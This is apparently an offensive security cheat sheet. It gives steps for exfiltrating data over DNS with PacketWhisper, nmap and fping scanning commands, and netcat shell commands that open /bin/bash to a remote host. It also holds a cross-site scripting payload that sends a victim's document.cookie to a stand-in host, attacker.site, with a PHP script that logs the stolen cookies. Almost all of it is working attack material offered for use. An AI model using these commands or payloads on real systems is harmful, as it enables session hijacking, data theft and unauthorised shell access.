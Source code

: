 ### Using packetwhisper to exfil data using DNS

1. ```mkdir tmpwork && cd tmpwork && wget  [https://github.com/TryCatchHCF/PacketWhisper/archive/master.zip](https://github.com/TryCatchHCF/PacketWhisper/archive/master.zip)```
2. Start python simple http server
3. Goto victims machine & open outbound port
4. Generate powershell cmd & start wireshark on attacker machine
5. On victim machine, execute generated powershell code

### Ping sweep

```shell
fping -a -g 10.0.2.15/24 2> /dev/null

nmap -sn 10.0.2.15/24
```

### Find service versions of services on server

```shell
sudo nmap -sV -F -sS ip_addr
```

### Netcat bind shell

Attacker machine:

```shell
nc -lvp 1337 -e /bin/bash
```

Victim machine:

```shell
nc -v attackerip 1337
```

### JS payload - post to attacker

On victim asset:

```shell
<script> var i = new Image(); i.src="https://attacker.site/get.php?cookie="+escape(document.cookie) </script>
```

On attacker website:

```php
<?php  
  
$ip = $_SERVER['REMOTE_ADDR'];  
$browser = $_SERVER['HTTP_USER_AGENT'];  
  
$fp = fopen('jar.txt', 'a');  
fwrite($fp, $ip.' '.$browser."\n");  
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n\n");  
fclose($fp);
```
